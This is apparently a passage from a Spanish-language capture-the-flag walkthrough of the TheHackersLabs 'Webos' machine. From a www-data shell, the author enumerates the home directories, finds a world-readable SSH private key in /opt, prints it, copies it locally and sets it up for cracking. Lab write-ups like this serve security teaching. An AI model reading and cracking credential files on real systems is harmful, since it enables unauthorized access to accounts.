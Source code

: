Podemos ver el contenido del **usuario webos**:
```bash
www-data@TheHackersLabs-Webos:/var/www/html$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jul  6  2024 .
drwxr-xr-x 18 root   root   4096 Jul  6  2024 ..
drwx------  2 debian debian 4096 Jul  1  2024 debian
drwxr-xr-x  5 webos  webos  4096 Jul 18  2024 webos
```

Pero no hay mucho que podamos ver, pero es un poco extraño ver el binario **python3** en un directorio de un usuario:
```bash
www-data@TheHackersLabs-Webos:/var/www/html$ ls -la /home/webos/
total 6716
drwxr-xr-x 5 webos webos    4096 Jul 18  2024 .
drwxr-xr-x 4 root  root     4096 Jul  6  2024 ..
lrwxrwxrwx 1 root  root        9 Jul 18  2024 .bash_history -> /dev/null
-rw-r--r-- 1 webos webos     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 webos webos    3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 webos webos    4096 Jul  6  2024 .local
-rw-r--r-- 1 webos webos     807 Apr 23  2023 .profile
drwx------ 2 webos webos    4096 Jul  6  2024 .ssh
-rwxr-xr-x 1 root  root  6839928 Jul  6  2024 python3
-r-------- 1 webos webos      36 Jul 18  2024 user.txt
drwxr-xr-x 2 webos webos    4096 Jul 17  2024 webito
```

Buscando un poco por ahí, encontraremos algo interesante en el directorio `/opt`:
```bash
www-data@TheHackersLabs-Webos:/var/www/html$ ls -la /opt
total 12
drwxr-xr-x  2 webos webos 4096 Jul  6  2024 .
drwxr-xr-x 18 root  root  4096 Jul  6  2024 ..
-rw-r--r--  1 webos webos 3434 Jul  6  2024 id_rsa
```

Encontramos una **llave privada id_rsa** del **usuario webos** y podemos leerla:
```bash
www-data@TheHackersLabs-Webos:/var/www/html$ cat /opt/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAA
...
...
```

Cópiala, pégala en tu máquina y dale los permisos correspondientes:
```bash
nano id_rsa
------------
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAA
...
-----------
chmod 600 id_rsa
```
Vamos a crackear esta llave.
